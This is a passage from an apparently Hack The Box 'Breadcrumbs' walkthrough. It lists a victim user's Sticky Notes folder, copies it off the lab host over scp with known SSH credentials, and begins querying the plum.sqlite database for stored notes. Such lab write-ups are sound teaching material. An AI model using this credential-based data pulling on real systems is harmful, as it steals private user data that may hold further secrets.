 ```powershell


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/15/2021   4:10 PM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----        11/29/2020   3:10 AM           4096 plum.sqlite
-a----         1/15/2021   4:10 PM          32768 plum.sqlite-shm
-a----         1/15/2021   4:10 PM         329632 plum.sqlite-wal


    Directory: C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\Settings


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         1/15/2021   4:08 PM              0 roaming.lock
-a----         1/15/2021   4:10 PM           8192 settings.dat


PS C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe>
```

Let's transfer the file in our localhost and have a look at it in detail.

Because we know user's ssh credentials, we can use `scp` (secure copy).

```bash
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs]
└─> scp -r juliette@10.10.10.228:$(echo -E "C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState" | tr \\ "/") .
tr: warning: an unescaped backslash at end of string is not portable
juliette@10.10.10.228's password: 
15cbbc93e90a4d56bf8d9a29305b8981.storage.session                                                                                                                                                            100%   20KB 110.7KB/s   00:00    
plum.sqlite                                                                                                                                                                                                 100% 4096    41.4KB/s   00:00    
plum.sqlite-shm                                                                                                                                                                                             100%   32KB 239.4KB/s   00:00    
plum.sqlite-wal
```

## SQLite DB

```sql
┌──(root💀f4T1H)-[~/hackthebox/breadcrumbs/LocalState]
└─> sqlite3 plum.sqlite 
SQLite version 3.34.1 2021-01-20 14:10:07
Enter ".help" for usage hints.
sqlite> .tables
Media           Stroke          SyncState       User          
Note            StrokeMetadata  UpgradedNote  
sqlite> select count(*) from Media;
0
sqlite> select count(*) from Stroke;
0
sqlite> select count(*) from SyncState;
0
sqlite> select count(*) from User;
1
sqlite> select * from User;
```